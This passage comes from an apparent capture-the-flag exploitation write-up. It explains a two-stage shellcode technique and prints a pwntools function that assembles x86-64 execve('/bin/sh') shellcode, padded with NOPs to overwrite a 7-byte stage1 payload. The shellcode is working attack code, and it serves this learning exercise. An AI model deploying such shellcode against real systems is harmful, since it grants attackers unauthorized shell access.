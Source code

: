 </table>

As you can see, we have successfully invoked `read()`, overwrote stage1 shellcode, and execution fell-through to stage2. Let's use an appropriate stage2 shellcode that spawns a shell, just like we did in challenge1:

```python
def craft_shellcode_stage2():
    shellcode = asm('''
    xor     rdx, rdx
    lea rbx, [rip+binsh]
    mov     rdi, rbx
    push    rdx
    push    rbx
    mov     rsi, rsp
    mov     eax, 0x3b
    syscall

    hang:
    jmp hang

    /************* Data section *************/
    binsh:
    .ascii "/bin/sh\\0"
    ''')
    padded_shellcode = b'\x90'*7 + shellcode + b'\x90'*(0x100-7 - len(shellcode)) # pad with NOPs. We also overwrite the stage1 shellcode, which is 7 bytes long.
    assert(len(padded_shellcode) == 0x100)
    return padded_shellcode
```

<table>
<tr>
<td align="center" width=50%>
